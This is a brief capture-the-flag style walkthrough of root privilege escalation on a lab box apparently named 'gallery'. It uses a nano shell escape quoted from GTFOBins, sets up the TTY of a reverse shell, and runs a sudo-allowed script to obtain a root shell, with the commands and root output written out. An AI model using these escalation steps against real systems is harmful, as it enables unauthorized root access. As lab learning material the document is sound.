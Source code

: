 getting a shell with nano

https://gtfobins.github.io/gtfobins/nano/#shell

```
It can be used to break out from restricted environments by spawning an interactive system shell.
```

```
nano
^R^X
reset; sh 1>&0 2>&0
```

```
The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
```

```
nano -s /bin/sh
/bin/sh
^T
```

try to use the read option, getting unkown terminal, need to do some modifications to our reverse shell

https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/full-ttys#script

```
export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

running the script again
```
sudo /bin/bash /opt/rootkit.sh
```

executing these commands while in nano
```
^R
^X
reset; bash 1>&0 2>&0
```


we have a  root shell

```
root@gallery:/opt# whoami
root
root@gallery:/opt# uname -a
Linux gallery 4.15.0-167-generic #175-Ubuntu SMP Wed Jan 5 01:56:07 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
root@gallery:/opt# sudo -l
Matching Defaults entries for root on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User root may run the following commands on gallery:
    (ALL : ALL) ALL
```
